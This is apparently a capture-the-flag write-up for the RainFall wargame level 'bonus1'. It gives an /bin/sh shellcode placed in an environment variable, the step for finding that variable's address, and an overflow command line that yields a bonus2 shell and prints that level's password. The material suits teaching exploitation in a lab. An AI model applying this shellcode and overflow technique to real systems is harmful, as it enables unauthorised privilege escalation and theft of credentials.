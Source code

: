 Again, since we work with the environment the steps are a little more numerous, we don't have one shell script so follow those 3 steps:

First we export our shellcode as an env variable

```sh
export SHELLCODE=$(python -c "print('\x90' * 500 + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80')")
```

Then we find the address of this variable with the c script env_address present in Resources

```sh
bonus1@RainFall:~$ /tmp/a.out SHELLCODE
Searching address of SHELLCODE env variable:
Big-endian format: < address_big_endian >
Lil-endian format: < address_lil_endian >
```

Finally we write our payload by replacing < address_lil_endian > with the actual address in Little endian format.

```sh
bonus1@RainFall:~$ ./bonus1 -1073741799 $(python -c "print 'A' * 56 + '< address_lil_endian >'")
$ whoami
bonus2
$ cat /home/user/bonus2/.pass 
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
